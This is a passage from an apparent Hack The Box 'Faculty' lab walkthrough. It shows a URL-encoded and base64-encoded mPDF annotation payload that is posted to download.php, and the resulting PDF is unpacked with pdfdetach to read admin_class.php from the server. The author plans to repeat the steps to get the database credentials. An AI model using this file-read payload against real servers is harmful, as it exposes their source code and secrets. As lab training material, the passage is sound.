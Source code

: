 ```sh
┌──(root㉿kali)-[~/htb/faculty]
└─# python3 -c "import urllib.parse; print(urllib.parse.quote('<annotation file=\"/var/www/scheduling/admin/admin_class.php\" content=\"/var/www/scheduling/admin/admin_class.php\"  icon=\"Graph\" title=\"Attached File: /var/www/scheduling/admin/admin_class.php\" pos-x=\"195\" />'))" | base64
JTNDYW5ub3RhdGlvbiUyMGZpbGUlM0QlMjIvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2FkbWluX2NsYXNzLnBocCUyMiUyMGNvbnRlbnQlM0QlMjIvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2FkbWluX2NsYXNzLnBocCUyMiUyMCUyMGljb24lM0QlMjJHcmFwaCUyMiUyMHRpdGxlJTNEJTIyQXR0YWNoZWQlMjBGaWxlJTNBJTIwL3Zhci93d3cvc2NoZWR1bGluZy9hZG1pbi9hZG1pbl9jbGFzcy5waHAlMjIlMjBwb3MteCUzRCUyMjE5NSUyMiUyMC8lM0UK

┌──(root㉿kali)-[~/htb/faculty]
└─# curl -i -s -k -X POST -b 'PHPSESSID=8fpk0ldu1vns710k2eafmsf3s6' --data-binary 'pdf=JTNDYW5ub3RhdGlvbiUyMGZpbGUlM0QlMjIvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2FkbWluX2NsYXNzLnBocCUyMiUyMGNvbnRlbnQlM0QlMjIvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2FkbWluX2NsYXNzLnBocCUyMiUyMCUyMGljb24lM0QlMjJHcmFwaCUyMiUyMHRpdGxlJTNEJTIyQXR0YWNoZWQlMjBGaWxlJTNBJTIwL3Zhci93d3cvc2NoZWR1bGluZy9hZG1pbi9hZG1pbl9jbGFzcy5waHAlMjIlMjBwb3MteCUzRCUyMjE5NSUyMiUyMC8lM0UK' 'http://faculty.htb/admin/download.php' -o -
OK3gSkwW7JXl5vjqdHeQU4hAsP.pdf

┌──(root㉿kali)-[~/htb/faculty]
└─# wget http://faculty.htb/mpdf/tmp/OK3gSkwW7JXl5vjqdHeQU4hAsP.pdf
--2022-07-20 23:01:20--  http://faculty.htb/mpdf/tmp/OK3gSkwW7JXl5vjqdHeQU4hAsP.pdf
Resolving faculty.htb (faculty.htb)... 10.10.11.169
Connecting to faculty.htb (faculty.htb)|10.10.11.169|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4400 (4.3K) [application/pdf]
Saving to: ‘OK3gSkwW7JXl5vjqdHeQU4hAsP.pdf’
OK3gSkwW7JXl5vjqdHeQU4hAsP.pdf   100%[================>]   4.30K  --.-KB/s    in 0s
2022-07-20 23:01:20 (413 MB/s) - ‘OK3gSkwW7JXl5vjqdHeQU4hAsP.pdf’ saved [4400/4400]

┌──(root㉿kali)-[~/htb/faculty]
└─# pdfdetach -save 1 OK3gSkwW7JXl5vjqdHeQU4hAsP.pdf
```

## Code Review

We see another interesting file in here:

```php
┌──(root㉿kali)-[~/htb/faculty]
└─# cat admin_class.php
<?php
session_start();
ini_set('display_errors', 1);
Class Action {
        private $db;

        public function __construct() {
                ob_start();
        include 'db_connect.php';
```

The db_connect.php file surely has something useful. Repeat the above process to get the file, and now we can look at it:
